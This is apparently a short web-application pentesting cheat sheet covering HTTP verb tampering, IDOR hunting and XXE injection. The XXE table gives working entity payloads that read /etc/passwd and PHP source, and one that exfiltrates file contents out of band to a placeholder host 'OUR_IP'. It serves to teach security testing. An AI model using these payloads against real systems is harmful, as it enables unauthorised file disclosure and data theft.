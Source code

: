 # Cheat Sheet

### HTTP Verb Tampering

`HTTP Method`

* `HEAD`
* `PUT`
* `DELETE`
* `OPTIONS`
* `PATCH`

| **Command**  | **Description**           |
| ------------ | ------------------------- |
| `-X OPTIONS` | Set HTTP Method with Curl |

### IDOR

`Identify IDORS`

* In `URL parameters & APIs`
* In `AJAX Calls`
* By `understanding reference hashing/encoding`
* By `comparing user roles`

| **Command** | **Description**        |
| ----------- | ---------------------- |
| `md5sum`    | MD5 hash a string      |
| `base64`    | Base64 encode a string |

### XXE

| **Code**                                                                           | **Description**                                |
| ---------------------------------------------------------------------------------- | ---------------------------------------------- |
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">`                                | Define External Entity to a URL                |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">`                                        | Define External Entity to a file path          |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">`        | Reading a file through a PHP error             |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">`  | Reading a file OOB exfiltration                |
